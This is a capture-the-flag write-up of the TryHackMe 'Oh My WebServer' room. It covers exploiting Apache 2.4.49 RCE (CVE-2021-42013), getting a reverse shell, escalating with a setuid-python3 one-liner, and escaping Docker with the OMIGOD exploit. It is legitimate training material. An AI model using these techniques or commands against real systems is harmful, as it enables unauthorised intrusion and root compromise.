 ```yaml
---
title: Oh My WebServer -- Writeup
date: 2022-03-05
categories: [TryHackMe, Medium]
tags: [tryhackme, ctf, rce, docker, omi]     # TAG names should always be lowercase
---
```


# Summary -
Medium rated machine whose Apache server is vulnerable(cve-2021-42013) to path traversal and rce. After getting initial access, we have to escape docker.

# Enumeration -
nmap, here we go...
### nmap -
```bash
# Nmap 7.92 scan initiated Sat Mar  5 09:53:37 2022 as: nmap -T4 -p- -A -oA port_scan 10.10.89.68
Nmap scan report for 10.10.89.68
Host is up (0.21s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Consult - Business Consultancy Agency Template | Home
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.39 - 3.2 (86%), Infomir MAG-250 set-top box (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 5 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   8.53 ms   10.17.0.1
2   ... 4
5   155.98 ms 10.10.89.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Mar  5 10:06:33 2022 -- 1 IP address (1 host up) scanned in 776.46 seconds
```

**port 80** -
Enumerated website but cannot find any interesting stuff... Back to basics. So, searched for Apache 2.4.49 and found out it is vulnerable to path traversal and rce. Great...
There is a readily available exploit which works but let's do it a bit manually...

[https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013)

_Above article explained it nicely so do give it a read..._

So, let's get Burp started and intercept the request...
Path traversal was failing so I tried rce one and that worked!

![[Pasted image 20220305222153.png]](/assets/img/tryhackme/ohmywebserver/20220305222153.png)

So, with that we should be able to get reverse shell.

# Exploitation -
Let's try to get reverse shell now.

![[Pasted image 20220305222442.png]](/assets/img/tryhackme/ohmywebserver/20220305222442.png)

So, python3 is installed... Let's use python3 reverse shell then.

![[Pasted image 20220305222548.png]](/assets/img/tryhackme/ohmywebserver/20220305222548.png)

And we got a reverse shell.

# Post Exploitation -
Let's run linpeas.

![[Pasted image 20220305223041.png]](/assets/img/tryhackme/ohmywebserver/20220305223041.png)

Looks like we are inside a docker container...

![[Pasted image 20220305223231.png]](/assets/img/tryhackme/ohmywebserver/20220305223231.png)

Interesting... setuid on python3... Gtfobins here we go...
```bash
/usr/bin/python3.7 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![[Pasted image 20220305223405.png]](/assets/img/tryhackme/ohmywebserver/20220305223405.png)

We got root on this container... Now, just need to escape it ig... Sigh...

![[Pasted image 20220306142752.png]](/assets/img/tryhackme/ohmywebserver/20220306142752.png)
_Interesting..._

No mention of 10. ip. So, .1 is probably the host machine.

![[Pasted image 20220306143430.png]](/assets/img/tryhackme/ohmywebserver/20220306143430.png)

Well, tried nmap version reveal but no luck. That looks like winrm port but its a Linux machine.

![[Pasted image 20220306204244.png]](/assets/img/tryhackme/ohmywebserver/20220306204244.png)

Found this on hackbooks website. It even has a link for the latest CVE-2021-38647 (OMIGOD) exploit which looks a bit similar to room name.

![[Pasted image 20220306205125.png]](/assets/img/tryhackme/ohmywebserver/20220306205125.png)
_[cve-2021-38647](https://github.com/horizon3ai/CVE-2021-38647)_

To get a root shell, host a python3 reverse shell file and upload that to the server and use it to get reverse shell.

![[Pasted image 20220306205722.png]](/assets/img/tryhackme/ohmywebserver/20220306205722.png)
